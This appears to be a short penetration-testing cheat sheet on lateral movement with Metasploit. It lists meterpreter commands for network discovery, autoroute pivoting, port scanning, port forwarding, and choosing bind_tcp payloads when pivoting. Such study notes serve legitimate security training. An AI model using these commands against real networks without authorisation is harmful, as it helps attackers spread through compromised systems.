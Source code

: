 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>`
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
  - `show options` - set rhosts
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
  - check that you are in meterpreter console (`sessions -i <session-number>`) 
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap -sV <local_port> <target>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 

